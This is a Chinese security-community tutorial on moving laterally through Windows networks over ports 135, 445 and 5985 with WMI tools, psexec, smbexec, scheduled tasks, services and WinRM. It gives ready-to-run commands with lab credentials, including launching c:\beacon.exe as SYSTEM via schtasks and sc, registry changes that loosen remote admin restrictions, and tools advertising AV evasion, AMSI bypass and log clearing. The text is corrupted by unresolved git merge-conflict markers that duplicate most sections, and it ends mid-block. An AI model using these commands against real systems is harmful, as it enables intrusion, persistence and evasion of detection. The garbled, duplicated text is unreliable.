# 内网横向下的 135,445 与 5985 端口利用 - 先知社区

<<<<<<< HEAD
=======
内网横向下的 135,445 与 5985 端口利用

- - -

>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# LocalAccountTokenFilterPolicy

在工作组环境下横向移动时 `administrator` 账户和管理员账户下的其他用户进行远程连接时，会有一定的区别，原因就是因为 `LocalAccountTokenFilterPolicy`，在 `Windows Vista` 以后的操作系统中，注册表中默认没有这个值，因此当 `administrator` 账户进行连接时会得到具有管理员凭证的令牌，而其他管理员账户进行连接时会得到一个删除管理员凭证的令牌。因此当其他本地管理员账户进行连接时会提示权限不够无法连接。  
以上这种情况在域环境中不受影响，只要是域管理员都可以建立管理员权限的连接。

## 注册表操作

使用该命令对注册表进行查询，可以看到默认不存在该值

<<<<<<< HEAD
```plain
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134720-547c4008-dd0f-1.png)

通过 `administrator` 账号和管理组账号对比可以发现只允许 `administrator` 登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134730-5a8a5048-dd0f-1.png)

使用以下命令添加该值，此时已经可以用其他管理员账号进行横向

```plain
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134737-5e4ae9cc-dd0f-1.png)

使用以下命令可以删除该注册表值

```plain
=======
```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134720-547c4008-dd0f-1.png)

通过 `administrator` 账号和管理组账号对比可以发现只允许 `administrator` 登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134730-5a8a5048-dd0f-1.png)

使用以下命令添加该值，此时已经可以用其他管理员账号进行横向

```bash
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134737-5e4ae9cc-dd0f-1.png)

使用以下命令可以删除该注册表值

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /f
```

# 135 端口

## WMIC

### 介绍

`WMIC` 是 `Windows 管理仪表命令行(Windows Management InstrumentationCommand-line)` 的简称，它是一款命令行管理工具，使用 `WMIC`，我们不但可以管理本地计算机，还可以管理统一局域网内的所有远程计算机（需要必要的权限），而被管理的计算机不必事先安装 `WMIC`。自 `Windows98` 开始，Windows 操作系统都支持 `WMIC`，`WMIC` 是一系列工具集组成的。

### 特点

在用 `WMIC` 执行命令过程中，操作系统默认不会将 `WMIC` 的操作记录在日志中，因此在这个过程中不会产生日志。所以越来越多的攻击者由 `psexec`、 `smbexec` 转向 `WMIC`。

### 利用条件

`WMIC` 的使用需要对方开启 135 端口，135 端口是 WMIC 默认的管理端口。但是有的工具例如 `impacket` 的 `wmicexec.py` 还需要另外开启 445 端口和 admin$ 共享，因为他需要用 smb 回传来读取回显结果。

## SharpWmi

### 介绍

下载地址：`[https://github.com/QAX-A-Team/sharpwmi](https://github.com/QAX-A-Team/sharpwmi)`  
<<<<<<< HEAD
这是一个基于 135 端口来进行横向的工具， 具有命令执行和文件上传的功能。命令执行的实现是通过 Wmi 来执行命令，然后将结果写入注册表随后读取注册表内容来实现。文件上传功能是将数据写入注册表，随后使用 powershell 读取注册表数据写入到本地文件。

```plain
优点：
只依赖135端口，不需要139或者445端口

缺点：
目前只支持上传512kb以下的文件，因为注册表每个值值长度不能超过512kb。
执行命令和上传文件都依赖powershell，容易被杀软检测
=======
这是一个基于 135 端口来进行横向的工具，具有命令执行和文件上传的功能。命令执行的实现是通过 Wmi 来执行命令，然后将结果写入注册表随后读取注册表内容来实现。文件上传功能是将数据写入注册表，随后使用 powershell 读取注册表数据写入到本地文件。

```bash
优点：
只依赖 135 端口，不需要 139 或者 445 端口

缺点：
目前只支持上传 512kb 以下的文件，因为注册表每个值值长度不能超过 512kb。
执行命令和上传文件都依赖 powershell，容易被杀软检测
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

### 功能测试

命令执行

<<<<<<< HEAD
```plain
sharpwmi.exe 192.168.3.157 micle admin cmd whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134754-68eeef9a-dd0f-1.png)

文件上传

```plain
sharpwmi.exe 192.168.3.157 micle admin upload 1.txt "c:\1.txt"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134759-6be3dd1e-dd0f-1.png)

执行的速度还是比较快的，但是该工具不能批量执行命令或上传文件，可以使用以下魔改版

```plain
https://github.com/idiotc4t/sharpwmi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134805-6f6d7e22-dd0f-1.png)
=======
```bash
sharpwmi.exe 192.168.3.157 micle admin cmd whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134754-68eeef9a-dd0f-1.png)

文件上传

```bash
sharpwmi.exe 192.168.3.157 micle admin upload 1.txt "c:\1.txt"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134759-6be3dd1e-dd0f-1.png)

执行的速度还是比较快的，但是该工具不能批量执行命令或上传文件，可以使用以下魔改版

```bash
https://github.com/idiotc4t/sharpwmi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134805-6f6d7e22-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 日志分析

我们首先将 windows 的五种日志全部清除

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134928-a0bc4436-dd0f-1.png)

重新使用工具执行命令，可以看到只有在安全日志中存在登录和特殊登录（给登录用户赋予权限），不存在其他日志信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134933-a385f608-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134928-a0bc4436-dd0f-1.png)

重新使用工具执行命令，可以看到只有在安全日志中存在登录和特殊登录（给登录用户赋予权限），不存在其他日志信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134933-a385f608-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## WMIHACKER

下载地址：[https://github.com/rootclay/WMIHACKER/](https://github.com/rootclay/WMIHACKER/)

### 介绍

该工具主要功能：命令执行、文件上传、文件下载，该工具仅需要 135 端口，具体原理和 `SharpWmi` 类似

### 功能测试

有命令回显执行方式

<<<<<<< HEAD
```plain
cscript WMIHACKER.vbs /cmd 192.168.3.157 micle "admin" "systeminfo" 1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134939-a7038d0e-dd0f-1.png)

无命令回显，只能通过写文件再读文件的方式来实现

```plain
=======
```bash
cscript WMIHACKER.vbs /cmd 192.168.3.157 micle "admin" "systeminfo" 1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134939-a7038d0e-dd0f-1.png)

无命令回显，只能通过写文件再读文件的方式来实现

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
cscript WMIHACKER.vbs /cmd 192.168.3.157 micle "admin" "systeminfo > c:\1.txt" 0
cscript WMIHACKER.vbs /cmd 192.168.3.157 micle "admin" "type  c:\1.txt" 1
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134947-abc1a9d4-dd0f-1.png)

模拟 shell 模式，该模式产生的并不是交互式 shell，仅仅是便于执行命令而已，可以看到如果执行 `powershell`，下方则一直在等待执行无法结束

```plain
cscript WMIHACKER.vbs /shell 192.168.3.157 micle "admin"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134954-b04f7ee0-dd0f-1.png)

文件上传

```plain
cscript WMIHACKER.vbs /upload 192.168.3.157 micle "admin" "1.txt" "c:\hello.txt"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134959-b34a35e0-dd0f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135003-b578a57c-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134947-abc1a9d4-dd0f-1.png)

模拟 shell 模式，该模式产生的并不是交互式 shell，仅仅是便于执行命令而已，可以看到如果执行 `powershell`，下方则一直在等待执行无法结束

```bash
cscript WMIHACKER.vbs /shell 192.168.3.157 micle "admin"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134954-b04f7ee0-dd0f-1.png)

文件上传

```bash
cscript WMIHACKER.vbs /upload 192.168.3.157 micle "admin" "1.txt" "c:\hello.txt"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308134959-b34a35e0-dd0f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135003-b578a57c-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

文件下载功能失败，工具可能有问题，大家自行测试。

### 日志分析

可以看到只包含登录和注销日志

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135015-bcecffc4-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135015-bcecffc4-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## wmiexec-pro

下载地址：[https://github.com/XiaoliChan/wmiexec-Pro](https://github.com/XiaoliChan/wmiexec-Pro)

### 介绍

新一代 wmiexec.py，更多新功能，整个操作仅适用于端口 135（不需要 smb 连接）用于横向移动中的 AV 规避，该工具文件上传与命令执行不再从注册表获取，而是通过自定义 wmi 类来实现  
**主要特点：**

<<<<<<< HEAD
```plain
主要特点：AV规避
主要特点：无需win32_process
主要特点：只需要135端口。
新模块：AMSI旁路
=======
```bash
主要特点：AV 规避
主要特点：无需 win32_process
主要特点：只需要 135 端口。
新模块：AMSI 旁路
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
新模块：文件传输
新模块：通过 wmi 类方法远程启用 RDP
新模块：Windows 防火墙滥用
新模块：事件日志循环清理
新模块：在不接触 CMD 的情况下远程启用 WinRM
新模块：服务管理器
新模块：RID-Hijack
增强功能：以新方式获取命令执行输出
增强功能：执行 vbs 文件
```

### 功能测试

建立 shell 连接

<<<<<<< HEAD
```plain
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -shell
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135023-c19f858c-dd0f-1.png)

执行系统命令

```plain
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -command "whoami"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135028-c49f3e8a-dd0f-1.png)
=======
```bash
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -shell
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135023-c19f858c-dd0f-1.png)

执行系统命令

```bash
python3 wmiexec-pro.py micle:admin@192.168.3.157 exec-command -command "whoami"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135028-c49f3e8a-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

当然还有许多附加功能，大家自行测试即可

### 日志分析

日志中同样仅有登录注销日志

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135032-c6ec70c2-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135032-c6ec70c2-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

# 445 端口

## IPC$ 共享

### 介绍

<<<<<<< HEAD
`IPC$` (Internet Process Connection) 是共享 “命名管道” 的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换。 `IPC$` 是 NT2000 的一项新功能，在同一时间内，两个 IP 之间只允许建立一个连接在初次安装系统时还打开了默认共享，即所有的逻辑共享 (C$、D$、E$……) 和系统目录共享 (admin$)，但只有管理员能够对他们进行远程操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135038-ca49c9f4-dd0f-1.png)

以下为常用命令

```plain
net use #查看本机连接其他的机器
net session #查看其他连接本机的机器
net share #查看开启的本地共享
net share ipc$ #开启ipc共享
net share ipc$ #删除ipc共享
net use \\192.168.3.1\ipc$ /u:"administrator" password #以管理员账号进行ipc连接
net use \\192.168.3.1\ipc$ \del #删除建立的ipc连接
dir \\192.168.3.1\c$\user #查看c盘下的user文件夹的目录
=======
`IPC$` (Internet Process Connection) 是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换。 `IPC$` 是 NT2000 的一项新功能，在同一时间内，两个 IP 之间只允许建立一个连接在初次安装系统时还打开了默认共享，即所有的逻辑共享 (C$、D$、E$……) 和系统目录共享 (admin$)，但只有管理员能够对他们进行远程操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135038-ca49c9f4-dd0f-1.png)

以下为常用命令

```bash
net use #查看本机连接其他的机器
net session #查看其他连接本机的机器
net share #查看开启的本地共享
net share ipc$ #开启 ipc 共享
net share ipc$ #删除 ipc 共享
net use \\192.168.3.1\ipc$ /u:"administrator" password #以管理员账号进行 ipc 连接
net use \\192.168.3.1\ipc$ \del #删除建立的 ipc 连接
dir \\192.168.3.1\c$\user #查看 c 盘下的 user 文件夹的目录
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
net time \\192.168.3.1 #查看远程主机的时间
```

`ipc` 连接利用条件：开启了 445 端口和 `ipc$` 共享，如果主机没有开放，建立连接时会提示找不到网络名。

### 利用方式

**dir 命令**

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135044-cdaf9baa-dd0f-1.png)

**tasklist 命令查看进程**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135049-d0b3bf02-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135044-cdaf9baa-dd0f-1.png)

**tasklist 命令查看进程**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135049-d0b3bf02-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

**at 命令创建计划任务**  
首先查看远程主机时间

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135053-d340c77e-dd0f-1.png)

使用 at 命令创建计划任务

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135053-d340c77e-dd0f-1.png)

使用 at 命令创建计划任务

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
at \\192.168.3.150 15:17:30 cmd.exe /c "ipconfig >1.txt"
```

虽然说已经被弃用，但是只要成功添加作业 at 命令就有效

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135057-d5f4f99a-dd0f-1.png)

删除创建的作业

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135102-d8778868-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135057-d5f4f99a-dd0f-1.png)

删除创建的作业

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135102-d8778868-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

**schtasks 执行计划任务**  
比 at 命令灵活，但是在 `c:\windows\tasks\xxx.txt` 会留下日志  
在目标主机 192.168.3.157 上创建一个名为 test 的计划任务，启动权限为 system，启动时间为每隔一小时启动一次

<<<<<<< HEAD
```plain
schtasks /create /s 192.168.3.157 /tn test /sc HOURLY /mo 1 /tr c:\beacon.exe /ru system /f /U micle /P admin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135131-ea0083f0-dd0f-1.png)

查询该 test 计划任务

```plain
schtasks /query /s 192.168.3.157 /U micle -P admin | findstr test
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135126-e700c3fe-dd0f-1.png)

启动 test 计划任务，成功上线

```plain
schtasks /run /s 192.168.3.157 /i /tn "test" /U micle -P admin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135120-e3825dfa-dd0f-1.png)

删除该 test 计划任务

```plain
schtasks /delete /s 192.168.3.157 /tn "test" /f /U micle -P admin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135141-efdb048a-dd0f-1.png)

**sc 注册服务**

```plain
=======
```bash
schtasks /create /s 192.168.3.157 /tn test /sc HOURLY /mo 1 /tr c:\beacon.exe /ru system /f /U micle /P admin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135131-ea0083f0-dd0f-1.png)

查询该 test 计划任务

```bash
schtasks /query /s 192.168.3.157 /U micle -P admin | findstr test
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135126-e700c3fe-dd0f-1.png)

启动 test 计划任务，成功上线

```bash
schtasks /run /s 192.168.3.157 /i /tn "test" /U micle -P admin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135120-e3825dfa-dd0f-1.png)

删除该 test 计划任务

```bash
schtasks /delete /s 192.168.3.157 /tn "test" /f /U micle -P admin
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135141-efdb048a-dd0f-1.png)

**sc 注册服务**

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#sc 命令远程创建名为 test 的服务
sc \\192.168.3.157 create test binpath= "c:\beacon.exe" 
#远程查询名为 test 的服务
sc \\192.168.3.157 query test
#远程启动名为 test 的服务
sc \\192.168.3.157 start test
#远程删除名为 test 的服务
sc \\192.168.3.157 delete test
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135146-f2e85448-dd0f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135154-f7a30d5c-dd0f-1.png)

## atexec.py

impacket 中的 atexec.py 脚本，就是利用定时任务获取权限，该脚本的利用需要开启 ipc$ 共享，通过计划任务服务来在目标主机上实现命令执行，并返回命令执行后的输出结果 。  
**使用明文密码进行连接**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135200-fb3db4f8-dd0f-1.png)

使用 hash 进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135204-fdb42f78-dd0f-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135146-f2e85448-dd0f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135154-f7a30d5c-dd0f-1.png)

## atexec.py

impacket 中的 atexec.py 脚本，就是利用定时任务获取权限，该脚本的利用需要开启 ipc$ 共享，通过计划任务服务来在目标主机上实现命令执行，并返回命令执行后的输出结果。  
**使用明文密码进行连接**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135200-fb3db4f8-dd0f-1.png)

使用 hash 进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135204-fdb42f78-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## psexec

### 介绍

psexec 的基本原理是：通过管道上传一个二进制文件到目标机器的 `C:\Windows` 目录，并在远程目标机器上创建一个服务。然后，通过该服务运行二进制文件，运行结束后删除服务和二进制文件。由于创建或删除服务时会产生大量的日志，所以会在攻击溯源时通过日志反推攻击流程。并且该工具在执行上传的二进制文件时，会被杀毒软件查杀。

### 利用条件

<<<<<<< HEAD
要利用 psexec 远程连接，需要目标主机开启 445 端口和 `admin$` 共享。因为 psexec 要往 `C:\Windows` 目录下写二进制文件。对于 `impacket` 下的 `psexec.py`，除了 `admin$` 共享外，还可以使用 `C$` 共享。 而微软提供的 `psexec.exe` 则只能使用 `admin$` 共享
=======
要利用 psexec 远程连接，需要目标主机开启 445 端口和 `admin$` 共享。因为 psexec 要往 `C:\Windows` 目录下写二进制文件。对于 `impacket` 下的 `psexec.py`，除了 `admin$` 共享外，还可以使用 `C$` 共享。而微软提供的 `psexec.exe` 则只能使用 `admin$` 共享
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### psexec.py

使用 `psexec.py` 执行

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135209-00a3c9aa-dd10-1.png)

从上方可以看到上传的程序为 `gRKuLZdb.exe`，启动的服务为 `XOGT`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135213-0338b25c-dd10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135217-057ef166-dd10-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135209-00a3c9aa-dd10-1.png)

从上方可以看到上传的程序为 `gRKuLZdb.exe`，启动的服务为 `XOGT`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135213-0338b25c-dd10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135217-057ef166-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 微软官方 psexec.exe

下载地址 [https://download.sysinternals.com/files/PSTools.zip](https://download.sysinternals.com/files/PSTools.zip)  
该工具只依赖于 445 端口和 `admin$` 共享，并且其上传的二进制文件名固定为 `PSEXESVC.exe`，创建的服务名固定为 `PSEXESVC`  
如果已经建立 ipc 连接则不需要再输入账号密码，如果没建立使用以下命令

<<<<<<< HEAD
```plain
加 -s 获取system权限 不加则为登录的管理员权限
psexec.exe \\192.168.3.157 -u micle -p admin -s cmd.exe
psexec.exe \\192.168.3.157 -u micle -p admin  cmd.exe

如果本地想获得一个system权限
PsExec64.exe -i -s  cmd.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135225-0a5330b2-dd10-1.png)

可以看到程序名和服务名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135231-0df2f7a2-dd10-1.png)
=======
```bash
加 -s 获取 system 权限 不加则为登录的管理员权限
psexec.exe \\192.168.3.157 -u micle -p admin -s cmd.exe
psexec.exe \\192.168.3.157 -u micle -p admin  cmd.exe

如果本地想获得一个 system 权限
PsExec64.exe -i -s  cmd.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135225-0a5330b2-dd10-1.png)

可以看到程序名和服务名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135231-0df2f7a2-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

#### 日志分析

最明显的特征就是在系统日志中出现 ID 为 7045 的日志

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135236-10b0ee90-dd10-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135236-10b0ee90-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## smbexec.py

`smbexec` 是一个类似 `psexec` 的使用 `RemComSvc` 技术的工具，该工具通过文件共享在远程系统中创建服务，将要运行的命令通过服务写在 bat 文件中来执行，然后将执行的结果写在文件中来读取执行命令的输出，最后将 bat 文件、输出文件和服务都删除。  
使用明文密码进行连接

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135245-15f508a0-dd10-1.png)

使用 `-share` 参数可以使用 `ipc` 共享外的其他共享

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135249-189be880-dd10-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135245-15f508a0-dd10-1.png)

使用 `-share` 参数可以使用 `ipc` 共享外的其他共享

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135249-189be880-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 日志分析

可以看到将命令输出到文件的服务

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135253-1b09605c-dd10-1.png)

# 5985 端口

`WinRM` 是 Windows Remote Managementd（Windows 远程管理）的简称。它基于 Web 服务管理，WinRM2.0 默认端口 5985（HTTP 端口）或 5986（HTTPS 端口）。如果所有的机器都是在 域环境下，则可以使用默认的 5985 端口，否则的话需要使用 HTTPS 传输 (5986 端口)。使用 WinRM 我们可以在对方有设置防火墙的情况下远程管理这台服务器，因为启动 WinRM 服务后，防火墙默认会放行 5985 端口。WinRM 服务在 Windows Server 2012 及以上服务器自动启动。在 WindowsVista 上，服务必须手动启动。 WinRM 的好处在于，这种远程连接不容易被察觉到，也不会占用远程连接数。  
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135253-1b09605c-dd10-1.png)

# 5985 端口

`WinRM` 是 Windows Remote Managementd（Windows 远程管理）的简称。它基于 Web 服务管理，WinRM2.0 默认端口 5985（HTTP 端口）或 5986（HTTPS 端口）。如果所有的机器都是在 域环境下，则可以使用默认的 5985 端口，否则的话需要使用 HTTPS 传输 (5986 端口)。使用 WinRM 我们可以在对方有设置防火墙的情况下远程管理这台服务器，因为启动 WinRM 服务后，防火墙默认会放行 5985 端口。WinRM 服务在 Windows Server 2012 及以上服务器自动启动。在 WindowsVista 上，服务必须手动启动。WinRM 的好处在于，这种远程连接不容易被察觉到，也不会占用远程连接数。  
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
当然在 `winRM` 连接时也遵循 `LocalAccountTokenFilterPolicy`

## 相关命令

强制开启 `winRM` 远程管理

<<<<<<< HEAD
```plain
Enable-PSRemoting -force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135258-1df42c98-dd10-1.png)

快速开启 `winRM` 远程管理，对 `winRM` 进行快速配置，包括开启 `winRM` 和开启防火墙允许 `5985` 端口

```plain
=======
```bash
Enable-PSRemoting -force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135258-1df42c98-dd10-1.png)

快速开启 `winRM` 远程管理，对 `winRM` 进行快速配置，包括开启 `winRM` 和开启防火墙允许 `5985` 端口

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrm quickconfig -q
```

快速启动 `WinRM` 远程管理，对 `WinRM` 服务进行快速配置，包括开启 `WinRM` 和开启防火墙允许默认的 5985 端口和 5986 HTTPS 传输端口。开启 https 传输需要该机器需要证书

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrm quickconfig -transport:https
```

设置 `WinRM` 自启动

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
Set-Service WinRM -StartMode Automatic
```

查看 `WinRM` 监听

<<<<<<< HEAD
```plain
winrm enumerate winrm/config/listener
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135304-218fc362-dd10-1.png)

查看 `WinRM` 配置

```plain
winrm get winrm/config
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135310-24cd6b6a-dd10-1.png)

修改 `WinRM` 默认端口

```plain
=======
```bash
winrm enumerate winrm/config/listener
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135304-218fc362-dd10-1.png)

查看 `WinRM` 配置

```bash
winrm get winrm/config
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135310-24cd6b6a-dd10-1.png)

修改 `WinRM` 默认端口

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrm set winrm/config/client/DefaultPorts '@{HTTPS="8888"}'
```

为 `WinRM` 服务配置加密方式为允许非加密

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrm set winrm/config/service '@{AllowUnencrypted="true"}'
```

设置只允许指定 IP 远程连接 `WinRM`

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrm set winrm/config/Client '@{TrustedHosts="192.168.3.*"}'
```

## 通过 WinRM 执行命令

执行程序，也可以填写木马所在的路径

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck '@{commandline="calc.exe"}'
```

## 利用 WinRM 远程连接主机

**客户端连接**

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
winrs -r:http://192.168.3.170:5985 -u:micle -p:admin cmd
```

如果是工作组环境，本机未加入域，则需要在客户端允许此命令

<<<<<<< HEAD
```plain
Set-Item wsman:\localhost\Client\TrustedHosts -value *
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135318-29ef93c0-dd10-1.png)
=======
```bash
Set-Item wsman:\localhost\Client\TrustedHosts -value *
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135318-29ef93c0-dd10-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

**使用 Enter-PSSession 连接**  
直接进入一个会话中

<<<<<<< HEAD
```plain
Enter-PSSession -computer 192.168.3.170 -Credential micle -Port 5985
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135324-2d4814ac-dd10-1.png)

新建一个会话但是不进入

```plain
New-PSSession -Name test -ComputerName 192.168.3.170 -Credential  micle
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135329-3025dace-dd10-1.png)

查看所有会话

```plain
Get-PSSession
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240308135333-329000a0-dd10-1.png)

进入 `ID` 为 1 的 `WinRM` 会话中

```plain
=======
```bash
Enter-PSSession -computer 192.168.3.170 -Credential micle -Port 5985
```

